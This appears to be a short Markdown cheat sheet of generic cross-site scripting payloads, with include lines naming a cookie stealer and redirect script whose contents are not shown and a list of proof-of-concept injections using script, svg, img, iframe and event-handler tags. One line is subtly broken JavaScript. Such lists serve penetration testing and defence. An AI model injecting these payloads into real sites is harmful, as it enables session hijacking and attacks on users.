 # Generic xss payloads.

### Maybe useful payloads:

@@include[cookie-stealer.js](useful/cookie-stealer.js)


@@include[redirect.js](useful/redirect.js)

@@include[include.js](useful/include.js)

### Other:

```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

